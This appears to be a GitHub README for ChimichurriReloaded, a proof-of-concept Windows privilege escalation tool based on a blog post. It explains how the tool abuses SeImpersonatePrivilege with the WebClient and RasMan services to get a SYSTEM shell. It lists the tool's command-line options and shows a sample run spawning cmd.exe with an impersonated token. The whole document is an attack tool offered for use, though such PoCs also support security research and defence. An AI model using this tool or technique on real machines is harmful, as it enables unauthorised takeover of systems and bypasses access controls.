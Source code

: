 # ChimichurriReloaded

This is a hastily put together PoC based entirely on the following blog post: https://itm4n.github.io/chimichurri-reloaded/

Basically, it's another way to get SYSTEM with SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege.  Some caveats, since it uses HTTP it does require the target to have the WebClient service installed.  This is installed by default on workstations, but not on servers.  This PoC will check for the presence of WebClient, start it if it's not already started, and attempt to trigger the vulnerability.  There are probably better ways to trigger RasMan to attempt to write to the trace file but I chose to write out a phonebook with a VPN connection and leverqage rasdial to attempt to connect and trigger the attempted write.  As always, YMMV.

## Usage

```
C:\Users\reigningshells>ChimichurriReloaded.exe --help
ChimichurriReloaded 1.0.0.0
Copyright c  2020

  -p, --port                   (Default: 9876) Set local HTTP listening port.

  -c, --command                (Default: C:\Windows\System32\cmd.exe) Command to run as SYSTEM

  -a, --arguments              Arguments to pass to command you wish to run as SYSTEM.

  -u, --createprocessasuser    (Default: CreateProcessWithToken) Use CreateProcessAsUser with SeAssignPrimaryToken
                               privilege.

  -v, --verbose                Set output to verbose messages.

  --help                       Display this help screen.

  --version                    Display version information.
```

## Example
```
C:\Users\reigningshells>ChimichurriReloaded.exe -p 9999 -c "c:\windows\system32\cmd.exe" -v
[+] Starting HttpImpersonator...
[+] WebClient already running...
[+] RasMan service already running, attempting to trigger a write to the trace file...
[+] Process spawned with impersonated token...
[+] Cleaning up registry...
```
